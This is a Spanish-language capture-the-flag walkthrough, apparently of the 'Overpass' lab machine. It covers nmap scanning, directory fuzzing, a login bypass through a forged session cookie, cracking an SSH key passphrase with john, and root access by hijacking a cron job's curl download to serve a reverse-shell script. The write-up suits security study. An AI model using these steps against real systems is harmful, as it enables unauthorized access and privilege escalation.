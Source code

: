 #Linux #Easy 
### nmap
```css
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 37:96:85:98:d1:00:9c:14:63:d9:b0:34:75:b1:f9:57 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDLYC7Hj7oNzKiSsLVMdxw3VZFyoPeS/qKWID8x9IWY71z3FfPijiU7h9IPC+9C+kkHPiled/u3cVUVHHe7NS68fdN1+LipJxVRJ4o3IgiT8mZ7RPar6wpKVey6kubr8JAvZWLxIH6JNB16t66gjUt3AHVf2kmjn0y8cljJuWRCJRo9xpOjGtUtNJqSjJ8T0vGIxWTV/sWwAOZ0/TYQAqiBESX+GrLkXokkcBXlxj0NV+r5t+Oeu/QdKxh3x99T9VYnbgNPJdHX4YxCvaEwNQBwy46515eBYCE05TKA2rQP8VTZjrZAXh7aE0aICEnp6pow6KQUAZr/6vJtfsX+Amn3
|   256 53:75:fa:c0:65:da:dd:b1:e8:dd:40:b8:f6:82:39:24 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMyyGnzRvzTYZnN1N4EflyLfWvtDU0MN/L+O4GvqKqkwShe5DFEWeIMuzxjhE0AW+LH4uJUVdoC0985Gy3z9zQU=
|   256 1c:4a:da:1f:36:54:6d:a6:c6:17:00:27:2e:67:75:9c (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAINwiYH+1GSirMK5KY0d3m7Zfgsr/ff1CP6p14fPa7JOR
80/tcp open  http    syn-ack ttl 63 Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Unknown favicon MD5: 0D4315E5A0B066CEFD5B216C8362564B
|_http-title: Overpass
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### hacemos fuzzing con gobuster

![[2023-11-01_21-14.png]]

### encontramos varios directorios interesantes asi que aprobar.
directorios interesantes:
```css
	/aboutus
	/admin
	/downloads
```

### en el subdirectorio admin encontramos un pagina de login la cual no parece ser vulnerable a sqli 

![[2023-11-03_10-35.png]]

### vamos a mirar el codigo fuente en busca de mas informacion

![[2023-11-03_10-38.png]]

### vemos que la pagina esta haciendo un llamado a tres script diferentes, revisando en cada uno de ellos podemos encontrar que el script /login.js alberga una cookie de session

![[2023-11-03_10-43.png]]

### vamos a cambiar nuestra cookie por "SessionToken" para intentar acceder al login. esto lo haremos de la siguiente manera:

```c
	-click derecho
	 
	-inspeccionar
	 
	-storage
	
	-liego a +
	
	-editamos nuestro nombre de cookie por el que hemos conseguido
	
	-finalmente recargamos la pagina
```
![[2023-11-03_11-08.png]]

### hemos baypaseado el login con una cookie que hemos encontrado lo que nos permite ver una informacion valiosa.

![[2023-11-03_11-15.png]]

### ademas de una id_rsa encontramos un usuario llamado james. asi que podemos utilizar estas credenciales para  intentar acceder via SSH.

![[2023-11-03_11-25.png]]

### parece que necesitamos la contraseña para poder utilizar el id_rsa. asi que usaremos ssh2john de la siguiente manera.

```c
ssh2john id_rsa > id_rsa.hash
```

### ahora usaremos john para intentar conseguir el passdword
```c
john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash 

james13          (id_rsa)     

1g 0:00:00:00 DONE (2023-11-03 11:35) 16.66g/s 223200p/s 223200c/s 223200C/s pink25..cheergirl
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

### conseguimos james13 como passdword para el id_rsa asi que vamos a probar con esto.

![[2023-11-03_11-42.png]]

### conseguimos dos archivos. uno de ellos nos da informacion sobre un programa llamado overpass que alberga las contraseñas asi que vamos a buscar ese programa con el comando 
```c
	find / -name "overpass" 2>/dev/null
```

### parece que no conseguimos nada. vamos a buscar las tareas crontab

![[2023-11-03_13-11 1.png]]

### tenemos una tarea crontab que se ejecuta cada minuto de cada dia de cada mes como el usuario root. esto podemos notarlo con los * que responden a cada opcion

este crontab hace un llamado con el comando curl sobre overpass.thm/downloads/src/buildscript.sh vamos a aprovechar esto para editar el /etc/hosts y de esta manera hacer que el overpass.thm apunte a nuestra maquina atacante.
![[2023-11-03_13-19.png]]

### ok sabemos que la tarea crontab hace un curl sobre  overpass.thm/downloads/src/buildscript.sh hemos modificado el /etc/hosts para que apunte a nuestra maquina. ahora respetando la ruta exacta, tal cual se ejecuta en la tarea crontab nos montaremos un servidor en python para poder ejecutar esta tarea desde nuestra maquina atacante.

```c
	-creados una carpeta llamada 'downloads' dentro de esta carpeta creamos otra llamada 'src'
	y finalmente creamos un archivo llamado "buildscript.sh" 
	este archivo va a contener nuestra reverse shell
```

![[2023-11-03_13-26.png]]
en  este caso usaremos la shell mas basica de todas en bash. 

### es importante saber que el curl hace el llamado a  overpass.thm/downloads/src/buildscript.sh en ese orden. por lo que debemos estar por detras de la carpeta  "downloads'' para que se ejecute correctamente.

ahora montamos un servidor en python de la siguiente manera:
```c 
	python3 -m http.server 80
```
esperamos un minuto mas o menos para que la tarea crontab se ejecute de nuevo
![[2023-11-03_13-33.png]]
por otro lado estaremos escuchando con netcat
```c 
	nc -lvnp 444
```

![[2023-11-03_13-37.png]]
### WE ARE ROOT

